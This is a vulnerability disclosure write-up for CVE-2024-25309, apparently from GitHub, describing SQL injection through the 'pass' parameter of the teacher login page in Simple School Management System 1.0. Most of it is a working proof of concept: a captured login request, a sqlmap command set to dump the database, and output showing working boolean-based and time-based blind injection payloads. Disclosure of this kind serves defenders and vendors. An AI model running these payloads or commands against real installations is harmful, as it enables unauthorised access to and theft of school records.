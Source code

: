 # CVE-2024-25309 - Simple School Managment System - SQL Injection - 7 (Teacher Login)
+ **Exploit Title:** Simple School Managment System - SQL Injection - 7 (Teacher Login)
+ **Date:** 2024-01-02
+ **Exploit Author:** Tuba Kavgacı
+ **Vendor Homepage:** https://code-projects.org/simple-school-management-in-php-with-source-code/
+ **Software Link:** https://download.code-projects.org/details/d10e92aa-e37f-46fd-9bf8-45878956d7c0
+ **Version:** 1.0
+ **Tested on:** Kali Linux + PHP 8.2.12, Apache 2.4.58
+ **CVE:** CVE-2024-25309

## Description:
Simple School Managment System 1.0 allows SQL Injection via the 'pass' parameter at "http://localhost/School/teacher_login.php". 
Exploiting this issue could allow an attacker to compromise the application, access or modify data, or exploit the latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to this address: "http://localhost/School/teacher_login.php"
+ Try logging in by typing random things
+ Capture the request via Burp Suite and send it to the Repeater.
+ Copy the request and paste it into an "r.txt" file.
+ Captured Burp request:
```
POST /School/teacher_login.php HTTP/1.1
Host: localhost
Content-Length: 28
Cache-Control: max-age=0
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/School/teacher_login.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=hidk6npo6f802og8sqcir2veul
Connection: close

name=selam&pass=selam&login=

```

+ Use sqlmap to exploit. In sqlmap, use 'pass' parameter to dump the database.
```
sqlmap -r r.txt -p pass --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db
```
```
---
Parameter: pass (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT)
    Payload: name=selam&pass=selam' OR NOT 3744=3744-- TMuD&login=

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: name=selam&pass=selam' AND (SELECT 1577 FROM (SELECT(SLEEP(5)))Kgwa)-- yUXV&login=
---
[06:48:33] [INFO] the back-end DBMS is MySQL
web application technology: PHP 8.2.12, Apache 2.4.58
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[06:48:33] [INFO] fetching current database
[06:48:33] [INFO] resumed: school
current database: 'school'

```
+ current database: `school`

![Ekran görüntüsü 2024-02-01 145808](https://github.com/tubakvgc/CVEs/assets/74067343/282947d6-6327-4766-a7b9-c24c777bd5e2)
